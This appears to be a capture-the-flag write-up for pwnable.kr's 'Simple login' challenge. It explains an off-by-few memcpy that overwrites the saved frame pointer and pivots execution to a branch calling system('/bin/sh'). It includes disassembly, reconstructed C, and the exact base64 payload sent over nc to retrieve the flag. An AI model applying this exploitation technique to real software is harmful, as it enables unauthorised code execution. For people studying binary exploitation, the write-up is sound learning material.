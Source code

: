 ```yaml
---
title: Simple login - Pwnable.kr
date: 2017-01-19
categories: [Writeups, Pwnable.kr]
tags: ['Buffer overflow', 'EBP']
image:
    path: "/unsorted/pwnablekr.png"
---
```


Fuzzing a little bit we can easily crash the program...there is something
weird happening here.

```console
$ ./login 
Authenticate : aaaaaaaaaaaaa
hash : 0df08ae957b3d5ae2d6445c9416fe1cd
Segmentation fault (core dumped)
```


Analyzing a little bit we can realize that the program crashes at the address
`0x08049424`:

```nasm
 ,=< 0x0804940a      7513           jne 0x804941f   
 |   0x0804940c      e84efeffff     call sym.correct        
,==< 0x08049411      eb0c           jmp 0x804941f  
||   0x08049413      c70424baa60d.  mov dword [esp], str.Wrong_Length
||   0x0804941a      e8b12e0100     call sym.puts                                            
``-> 0x0804941f      b800000000     mov eax, 0                                                              
     0x08049424      c9             leave        ; <== The program crashes here
     0x08049425      c3             ret    
```

The instruction `leave` is an alias of `mov esp, ebp; pop ebp`, if we have a closer
look to the value of the register `ebp` before this instruction we can assume this
is the cause of the program crashing (together with the part `pop ebp` of the instruction
`leave`).

After that it should be fairly easy to find where the value of `ebp` is changing, for this
we can just [set some watchpoint](https://stackoverflow.com/questions/2223425/gdb-breakpoint-when-register-will-have-value-0xffaa).


```nasm
/ (fcn) sym.auth 113                                               
|           ; var int buff @ ebp-0x14                                                  
|           ; var int md5 @ ebp-0xc                                                            
|           ; arg int length @ ebp+0x8                                                         
|           ; arg int fun_arg_2 @ esp+0x4                                                      
|           ; arg int fun_arg_3 @ esp+0x8                                                  
|           ; CALL XREF from 0x08049402 (sym.main)                                   
|           0x0804929c      55             push ebp                                         
|           0x0804929d      89e5           mov ebp, esp                                       
|           0x0804929f      83ec28         sub esp, 0x28                                               
|           0x080492a2      8b4508         mov eax, dword [ebp + length] 
|           0x080492a5      89442408       mov dword [esp + fun_arg_3], eax                            
|           0x080492a9      c744240440eb.  mov dword [esp + fun_arg_2], obj.input
|           0x080492b1      8d45ec         lea eax, [ebp - buff]   
|           0x080492b4      83c00c         add eax, 0xc                                                
|           0x080492b7      890424         mov dword [esp], eax                                        
|           0x080492ba      e8a1030200     call sym.memcpy         
```


We notice that the function `memcpy` is overwriting the stored value of `ebp`, indeed
it is copying the content referenced by `obj.input` into a data segment
starting from the address `buff + 0xc`, i.e. `ebp - 0x14 + 0xc` which is `ebp-0x8`.
If the value of length is more than eight we can overwrite `ebp` and maybe the 
return address. Let's see where the value of length is coming from:


```c
int auth(int length){

        char copy[8]; // ebp - 0x8
        char* md5;    // ebp - 0xc
        char buff[8]; // ebp - 0x14

        memcpy( copy, input, length); // copy == buff + 0xc
        md5 = calc_md5(buff, 0xc);

        printf("hash: %s\n",md5); 

        return strcmp("f87cd601aa7fedca99018a8be88eda34",md5) == 0;

}

void main(){

    char buff[0x1e]; 
    memset(buff, 0, 0x1e);

    setvbuf(stdout, NULL, _IOFBF, 0); 
    setvbuf(stdin, NULL, _IOLBF, 0);

    printf("Authenticate :\n");
    scanf("%30s", buff);
    
    memset(input, 0, 0xc);

    char* decoded_buff = NULL;
    int length = base64Decode(buff, &decoded_buff); // length decoded buff

    if ( 0xc < length){
        puts("Wrong length");
        return;
    }

    memcpy(input, decoded_buff, length);
    
    if (auth(length) != 1) return;

    correct();
}
```
       
       
Damn, `length` cannot be bigger than `0xc`...it's ok, we can still control
the frame pointer. After we set the value of `ebp` we can use the instructions
`leave; ret` at the end of the function `main` to jump to the function `correct`.

Thanks to `leave` (i.e. `mov esp, ebp`) we can control the value of `esp`, next
the instruction `ret` (i.e. `jump [esp]`) will let us jump to the address pointed
by `esp`.

So, first of all lets choose an address where to jump...let's say `0x08049278`
(so we can avoid the test).


```nasm
/ (fcn) sym.correct 61                                                                          
|           ; var int local_ch @ ebp-0xc                                                             
|           ; CALL XREF from 0x0804940c (sym.main)                                                     
|           0x0804925f      55             push ebp                                             
|           0x08049260      89e5           mov ebp, esp                                                     
|           0x08049262      83ec28         sub esp, 0x28                                                    
|           0x08049265      c745f440eb11.  mov dword [ebp - local_ch], obj.input                            
|           0x0804926c      8b45f4         mov eax, dword [ebp - local_ch]                                  
|           0x0804926f      8b00           mov eax, dword [eax]                                             
|           0x08049271      3defbeadde     cmp eax, 0xdeadbeef                                             
|       ,=< 0x08049276      7518           jne 0x8049290             
|       |   0x08049278      c7042451a60d.  mov dword [esp], 0x80da651 
|       |   0x0804927f      e84c300100     call sym.puts                                             
|       |   0x08049284      c704246fa60d.  mov dword [esp], 0x80da66f ; "/bin/sh"
|       |   0x0804928b      e820200100     call sym.system                                           
|       `-> 0x08049290      c70424000000.  mov dword [esp], 0                                               
\           0x08049297      e804140100     call sym.exit              
```

Now we need to find a zone in memory where we can find the value `0x080492978`.
For this we can use the zone over which we have complete control. There are
several buffers used to store user data and even with ALSR as we are in little 
endian we could just overwrite the lower bits of the `ebp` with the right offset
in order to reference any data on the stack. But there is an easier solution,
we can use `obj.input` which fixed address is `0x0811eb40`.


```python
>>> base64.b64encode(bytes.fromhex('00000000 78920408 40eb1108'))
b'AAAAAHiSBAhA6xEI'
```

And then:   
  
```console
$ nc pwnable.kr 9003
Authenticate : AAAAAHiSBAhA6xEI
hash : 1528d0b5bb646c5820b04126329c2c70
Congratulation! you are good!
cat flag
control EBP, control ESP, ******* EIP, ******* *** *****~
```
       
       



